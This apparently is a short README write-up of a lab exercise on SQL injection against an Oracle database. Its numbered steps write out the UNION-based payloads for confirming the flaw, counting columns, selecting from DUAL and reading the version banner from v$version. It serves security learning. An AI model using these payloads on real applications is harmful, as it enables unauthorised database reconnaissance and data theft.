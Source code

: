# SQL-injection-attack-querying-the-database-type-and-version-on-Oracle

> # !(1) To be sure that it has an sql vulnerability: url' -> internal server error. That means it has a vulnerability
![image](https://user-images.githubusercontent.com/59218362/208419556-a6f17621-237e-48f5-b8b2-6ed3921c833a.png)

> # (2) To know the number of column: 'ORDER BY 3-- -> internal server error. It means there are 2 columns
![image](https://user-images.githubusercontent.com/59218362/208419394-038bbc5a-d0b3-43b3-a354-62f0b5d009fb.png)
![image](https://user-images.githubusercontent.com/59218362/208419254-4f09eb82-d337-4da7-b75c-7421953397dd.png)

> # (3) To know which column is data retrieving: ‘UNION SELECT NULL,'Data'--. But got error. It is because the database is oracle
![image](https://user-images.githubusercontent.com/59218362/208419051-fa25dbc1-36fd-4a9e-96ff-9ddbb13abde3.png)

> # (4) To know data retrieve in oracle database: 'UNION SELECT 'sajib','rajib' FROM DUAL--. See we find out 2 both 2 column are retrieving data
![image](https://user-images.githubusercontent.com/59218362/208418870-00c353a4-c3b8-457c-bea7-3cc0eb951824.png)

> # (5) To know the version of oracle database: 'UNION SELECT banner, banner FROM v$version--. Here two banner is for the 2 columns.
![image](https://user-images.githubusercontent.com/59218362/208418752-2b3a8c05-feac-4081-9b64-f13c018b5a91.png)

